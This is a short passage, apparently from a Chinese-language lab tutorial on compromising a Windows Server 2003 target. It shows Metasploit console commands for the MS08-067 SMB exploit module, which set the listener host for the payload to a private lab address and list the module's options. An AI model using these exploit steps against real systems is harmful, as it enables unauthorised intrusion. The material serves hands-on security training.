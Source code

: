 # 设置载荷参数lhost
msf5 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.10.133

# 查看参数
msf5 exploit(windows/smb/ms08_067_netapi) > show options

```

<img src="images/lab_exploitwin2k3/metasploitable04.png" width="480" alt="metasploitable04" />

